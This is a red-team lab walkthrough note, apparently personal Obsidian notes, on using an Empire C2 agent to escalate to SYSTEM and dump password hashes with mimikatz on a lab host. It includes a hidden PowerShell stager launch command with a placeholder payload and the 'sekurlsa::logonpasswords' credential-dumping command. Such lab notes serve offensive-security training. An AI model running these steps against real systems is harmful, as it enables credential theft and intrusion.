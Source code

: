 #### Tags: [[06 - Privilege Escalation (TA0004)]] [[Empire C2]]

## Overview 
- Goal: Use our elevated agent gained by exploiting  to pull password hashes using mimikatz. 

### Operating via Agent or PowerShell
Always check for the following:
1. Integrity - High
2. Running as - System
3. Arch / Bit - 32 Bit will show as x86 Architecture or 64 Bit PowerShell Process

This is due to the fact that the binary we compiled with PowerUp is only 32-bit and there is not a 64-bit option.
- If we run mimikatz with this agent, it will fail due to the architecture mismatch. In fact, many of the modules will not function properly with this 32-bit agent. 

### PowerShell Process
On 64-bit Windows, the System32 folder holds the 64-bit binaries and the SysWOW64 folder holds the 32-bit binaries. Remember that WOW64 stands for "Windows 32-bit on Windows 64-bit"

`32-bit (x86) PowerShell is located at %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

`64-bit (x64) PowerShell is located at %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe

Note: We cannot spawn a 64 bit PS from a 32 bit agent. To spawn a new process / agent:
`C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc  <ENCODED_PART_OF_STAGER>`
- Observe, we now have a new agent that is a 64-bit process running as SYSTEM!

![[Pasted image 20240331023805.png]]
## Exploitation 
Interact with your new 64-bit agent, select `powershell/credentials/mimikatz/logonpasswords` from the Execute Module drop down list. Then click the SUBMIT button.
- `mimikatz(powershell) # sekurlsa::logonpasswords`

![[Pasted image 20240331023854.png]]

## Conclusion
In this lab we took advantage of our foothold on wk01.draconem.io. 
- First, we had to make sure it was safe to operate. We used Seatbelt to pull a lot of information from the system, we reviewed the results and didn't notice anything particularly risky to our engagement.
- Then we continued host-based discovery in search of Privilege Escalation opportunities with PowerUp. 
- Once we found the unquoted service path we had to jump through a few hoops to take advantage of it. 
- In the end we were able to elevate to SYSTEM and we dumped password hashes! Now we have a new password hash for the user Wesley.Thurner.
